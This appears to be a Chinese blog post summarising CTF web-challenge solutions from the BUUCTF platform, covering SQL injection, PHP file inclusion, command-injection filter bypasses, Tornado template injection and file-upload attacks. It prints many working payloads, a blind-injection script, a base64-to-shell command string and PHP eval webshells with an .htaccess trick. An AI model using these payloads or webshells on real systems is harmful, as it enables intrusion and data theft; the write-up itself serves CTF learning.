<!--yml
category: 未分类
date: 2022-04-26 14:39:19
-->

# 【BUUCTF刷题】Web解题方法总结（一)_Y1seco的博客-CSDN博客_buuctfweb

> 来源：[https://blog.csdn.net/qq_45834505/article/details/114276572](https://blog.csdn.net/qq_45834505/article/details/114276572)

# 前言

```
边刷题边总结些知识点，还在更新，冲！ 
```

## 信息搜集

1.dirsearch使用
下载地址：https://github.com/maurosoria/dirsearch
切换到安装目录

```
py dirsearch.py -u 网址 -e 语言（一般用*） 
```

-u 指定url
-e 指定网站语言

## SQL缺省

payload：*,1

查询语句：select *,1||flag from Flag

解题思路2：
payload:1;set sql_mode=PIPES_AS_CONCAT;select 1

解析：

在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接。
但在mysql 缺省不支持。需要调整mysql 的sql_mode
模式：pipes_as_concat 来实现oracle 的一些功能。

## 代码审计

1.使用php伪协议读文件内容。使用filter过滤器

```
?file=php://filter/convert.base64-encode/resource=flag.php 
```

例题：BUUCTFweb Secret File

抓包

2.  [phpmyadmin 4.8.1的一个远程文件包含的漏洞(CVE)](https://www.cnblogs.com/leixiao-/p/10265150.html)
    白名单验证：
    例题：BUUCTF web warmup
    示例代码如下：

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])  ##不能为空
        && is_string($_REQUEST['file'])  ##是字符串
        && emmm::checkFile($_REQUEST['file'])  ##上面checkfile返回为true
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> 
```

分析

checkfile()函数
定义了一个白名单：source.php和hint.php，判断 $page是否为空、是否为字符串。
判断 $page是否在白名单里，若存在返回true；
考虑到page有参数的情况， $_page是取出 $page问号前的东西，然后再判断 $_page是否在白名单里，若存在则返回true；两个函数一个mb_substr和mb_strpos，总的意思就是截取变量page中?前面的字符串，然后再进行白名单校验。
之后是url二次编码问题，需要将?进行二次url编码
所以构造payload：

```
file=hint.php%253f/../../../../../../../../ffffllllaaaagggg
或者
file=hint.php?file://../../../../../ffffllllaaaagggg 
```

```
因为服务器会自动解一次码，所以 $page的值为hint.php%3f../../../../../../../../ffffllllaaaagggg，又一次url解码后，$_page的值为hint.php?../../../../../../../../ffffllllaaaagggg,然后截取问号前面的hint.php判断在白名单里返回true。 
```

## SQL注入

### 常规流程

使用hackbar
1.判断是字符型还是数字型

```
'or 1=1 # 
```

如果是整形，他的报错信息应为
" ’ " 那我们需要闭合，由于这个题目没有过滤任何sql注入的关键字，我们直接用 %23（#）来进行闭合sql语句

2.爆列数

```
?username=1&password=11' order by 3%23  一般为3时有回显，字段数为3 
```

3.爆库

```
?username=1&password=11' union select 1,version(),database()%23 
```

4.爆表名

```
?username=123&password=111' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23 
```

5.爆表

```
?username=1&&password=1'union select 1,2,group_concat(id,username,password) from l0ve1ysq1 #
或
?username=1&&password=1' union select 1,2,group_concat(concat_ws('-',id,username,password)) from l0ve1ysq1%23 
```

ps:功能函数
1.concat_ws()函数
功能：一次性指定分隔符
语法：concat_ws(separator,str1,str2,…)
说明：第一个参数指定分隔符 分隔符不能为空 如果为NULL 则返回值NULL
2.concat()函数
功能：将多个字符串拼接成一个字符串
语法：concat(str1,str2,…)
返回结果为连接参数产生的字符串 如果有任何一个参数为NULL 则返回值NULL
3.group_concat( [DISTINCT] 要连接的字段 [Order BY 排序字段 ASC/DESC] [Separator ‘分隔符’] )
即按需求打印内容

### BUUCTF HardSQL

一个字符一个字符试发现很多字符如and,union都被过滤
因为空格被过滤，用()分割语句达到代替空格的效果。=被过滤，可以用like替代。尝试用[updatexml报错注入](https://blog.csdn.net/qq_37873738/article/details/88042610)

```
check.php?username=1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=2 
```

*   爆出库名
    
*   爆表名

```
check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like(database()))),0x7e),1))%23&password=2 
```



```
check.php?username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1'))),0x7e),1))%23&password=2 
```



*   因为updataxml限制语句为32位，而flag长度大于32位，所以用left和right函数拼接

```
前半部分 check.php?username=1'or(updatexml(1,concat(0x7e,(select((left(password,30)))from(H4rDsq1)),0x7e),1))%23&password=2

后半部分  
```




参考文章：【extractvalue报错注入】https://blog.csdn.net/qin9800/article/details/113446035

### 堆叠注入

在SQL中，分号（;）是用来表示一条sql语句的结束。
而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为：（因未对输入的参数进行过滤）Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

查看表的语句，在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符

1’;desc `1919810931114514`;

知识点1：堆叠注入
在SQL中，分号是用来表示一条sql语句的结束。如果在 ; 结束一个sql语句后继续构造下一条语句，效果就是分别执行两条sql语句。由于两条语句堆叠在同一行，而不是原本应该各自占据一行，所以这种注入成为堆叠注入。

知识点2
当数字型字符作为字段、表、库名查询时，应该用反单引号括起来

mysql预处理语句

```
PREPARE sqla from '[my sql sequece]';  	 预定义SQL语句
EXECUTE sqla; 							 执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla;  	 删除预定义SQL语句 
```

通过变量进行传递
SET @tn = ‘flag’; 存储表名
SET @sql = concat('select * from ', @tn); 存储SQL语句
PREPARE sqla from @sql; 预定义SQL语句
EXECUTE sqla; 执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE sqla; 删除预定义SQL语句

PREPARE语句准备好一条SQL语句，并分配给这条SQL语句一个名字供之后调用。
准备好的SQL语句通过EXECUTE命令执行，通过DEALLOCATE PREPARE命令释放掉。

### 使用MD5函数实现sql注入

BUUCTF easy MD5
1.知识点：
（1）MD5函数在加密ffifdyop后返回原始字符串’or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c ，另外mysql中以数字开头的字符串会被当做整形处理例如‘6abc’=6。
（2）md5绕过：因为md5不能处理数组，会返回NULL，因为NULL=NULL，可以实现绕过，传入数组，使得 md5 处理两个参数都返回 0 即可： payload:?a[]=1&b[]=2
或者传入两个md5处理后以0e开头的字符串

```
下列的字符串的MD5值都是0e开头的：
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a 
```

2.解题
随便输入后抓包发现Hint中有提示

利用md5特性传入ffifdyop，使得select语句为：

```
select * from 'admin' where password=' 'or '6' 
```

这样就相当于sql语句为永真实现注入
得到

访问页面发现了php页面

利用md5绕过得到

访问页面同样为一个md5绕过的php页面，易得flag

### 例题

#### BUUCTF WEB [CISCN2019 华北赛区 Day2 Web1]Hack World(SQL盲注，PHP）

*   题目描述:
    
*   已知表名和列名，并且发现过滤了很多sql字符，尝试注入

```
1^(ascii(substr((select(flag)from(flag)),1,1))>1)^1 
```

奉上大佬脚本

```
import requests
import time

url = "http://f0c8caf0-fc27-454e-83bc-a557d1891b94.node3.buuoj.cn/index.php"
temp = {"id" : ""}
flag = ""
for i in range(1,1000):
    time.sleep(0.06)
    low = 32
    high =128
    mid = (low+high)
    while(low<high):
        temp["id"] = "1^" + "(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
        r = requests.post(url,data=temp)
        print(low,high,mid,":")
        if "Hello" in r.text:
            low = mid+1
        else:
            high = mid
        mid =(low+high)
    if(mid ==32 or mid ==127):
        break
    flag +=chr(mid)
    print(flag)

print("flag=" ,flag) 
```

```
select
from
ascii
substr
table
column
by
schema
where
extractvalue
exp
if
/
(
)
%
!
@
#
$
^
&
*
-
_
+
=
'
"
~
`
\
|
,
.
||
&&
order
updatexml
limit
And
Or
%23

<
>
regex
group_concat
table_name
table_schema
column_name
database
imformation
union select
ascii(substr())
(select(group_concat(table_name))
from(information_schema.tables)where(table_schema=database())
(ascii(substr((select(group_concat(flaaag))from(flag)),%s,1))=%s)
where(table_schema=database()) 
```

补充：[使用burp进行Fuzz测试实现SQL注入](https://blog.csdn.net/hahazaizheli/article/details/96428290?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161717432816780265487351%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161717432816780265487351&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-1-96428290.pc_search_result_cache&utm_term=%E4%BD%BF%E7%94%A8burp%E8%BF%9B%E8%A1%8CFUZZ%E6%B5%8B%E8%AF%95&spm=1018.2226.3001.4187)，[burp的Intruder模块](https://blog.csdn.net/qq_35793285/article/details/111818477?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161717432816780265487351%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161717432816780265487351&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-6-111818477.pc_search_result_cache&utm_term=%E4%BD%BF%E7%94%A8burp%E8%BF%9B%E8%A1%8CFUZZ%E6%B5%8B%E8%AF%95&spm=1018.2226.3001.4187)

#### [GYCTF2020]Blacklist [堆叠注入]



*   尝试堆叠注入
    
*   爆列名
    

HANDLER方法
引自大佬：HANDLER … OPEN语句打开一个表，使其可以使用后续HANDLER … READ语句访问，该表对象未被其他会话共享，并且在会话调用HANDLER … CLOSE或会话终止之前不会关闭
构造：

```
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;# 
```

[参考文章](https://blog.csdn.net/SopRomeo/article/details/105396372?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161762143216780271594201%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161762143216780271594201&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-2-105396372.pc_search_result_cache&utm_term=%5BGYCTF2020%5DBlacklist&spm=1018.2226.3001.4187)

## Ping命令

常用管道符命令

```
& （按位与） 表示任务在后台执行，如要在后台运行redis-server,则有 redis-server &

&& （逻辑与）表示前一条命令执行成功时，才执行后一条命令 ，如果前面为假，后面的命令也不执行   如 echo '1‘ && echo ‘2’

| （按位或）表示管道，上一条命令的输出，作为下一条命令参数，直接执行|后面的语句，如 echo ‘yes’ | wc -l

|| （逻辑或）表示上一条命令执行失败后，才执行下一条命令，否则只执行前面的语句，如 cat nofile || echo “fail”

; 分号表示命令依次执行。 
```

1.过滤问题：空格

```
{cat,flag.txt} 
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式绕过) 
```

1)变量拼接字符串

```
b=ag.php;a=fl;cat$IFS$9$a$b 

//为什么要反过来？flag匹配时中间有内容也会被匹配。
//表达式 .* 就是单个字符匹配任意次，即贪婪匹配。以这个表达式为例：a.*b，它将会匹配最长的以a开始，以b结束的字符串。如果用它来搜索aabab的话，它会匹配整个字符串aabab。这被称为贪婪匹配 
```

2)base编码绕过
base64 编码的方式来绕过 flag 过滤

```
加密命令
echo “cat flag.php” | base64
解密命令并执行
echo Y2F0IGZsYWcucGhwCg== | base64 -d | sh
然后用$IFS$9代替空格。构造payload

  ?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhwCg==$IFS$9|$IFS$9base64$IFS$9-d$IFS$9|$IFS$9sh 
```

3)内联执行
linux中反引号作为内联使用

```
 cat `ls` 
```

#### nc

在linux中nc 后返回网页源码html

## tornado

[BUUCTF tornado题解](https://blog.csdn.net/weixin_44037296/article/details/105078717?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161477364616780271567725%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161477364616780271567725&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-6-105078717.pc_search_result_no_baidu_js&utm_term=buuctf+easy_tornado+1)
tornado存在模版[SSTI](https://blog.csdn.net/zz_Caleb/article/details/96480967)注入漏洞，尝试通过此漏洞获取到所需内容
1.先访问报错网页

```
/error?msg=Error 
```

2.通过handler.settings对象获取cookie_secret的值，即：
handler指向RequestHandler
RequestHandler.settings指向self.application.settings
所以handler.settings最终指向RequestHandler.application.settings
构造如下：

```
/error?msg={{handler.settings}} 
```

3.md5只加密二进制，所以先encode(‘utf-8’)编码为二进制,对于函数
hash.digest()
返回摘要，作为二进制数据字符串值
hash.hexdigest()
返回摘要，作为十六进制数据字符串值
进而根据题目已知信息编写脚本，获取payload

## 文件上传

#### 解法

(1) 带图片头的php一句话木马

```
GIF89a?
<script language='php'>eval($_POST['v']);</script> 
```

(2) 可解析的php后缀名：
php3，php4，php5，pht，phtml,phps
注：菜刀连接是要用POST
注意MMIE类型为jpeg，因为只允许图片上传
Content-Type: image/jpeg
绕过过程：
1.新建txt文件编写一句话木马，后缀为jpg（还有gif png等格式视情况而定）注意MMIE类型为jpeg，因为只允许图片上传
Content-Type: image/jpeg
2.Burpsuite抓包改包，修改文件后缀名，直至上传成功，如[BUUCTF upload](https://buuoj.cn/challenges#%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DUpload)中只有php后缀名为phtml才可以

3.上传成功后用蚁剑连接

最终在根目录可找到flag


### [MRCTF]你传你🐎呢

1.htaccess文件

```
.htaccess文件(或者"分布式配置文件"）提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。

概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

启用.htaccess，需要修改httpd.conf，启用AllowOverride，并可以用AllowOverride限制特定命令的使用。如果需要使用.htaccess以外的其他文件名，可以用AccessFileName指令来改变。例如，需要使用.config ，则可以在服务器配置文件中按以下方法配置：AccessFileName .config 。

笼统地说，.htaccess可以帮我们实现包括：文件夹密码保护、用户自动重定向、自定义错误页面、改变你的文件扩展名、封禁特定IP地址的用户、只允许特定IP地址的用户、禁止目录列表，以及使用其他文件作为index文件等一些功能。 
```

2.上传.htaccess文件，注意文件名必须相同才能够被上传成功

```
<FilesMatch "webshell.jpg">
SetHandler application/x-httpd-php
</FilesMatch> 
```

3.上传一句话木马webshell.jpg

```
<?php
@eval($_POST['v']);
?> 
```

4.用蚁剑连接获得flag
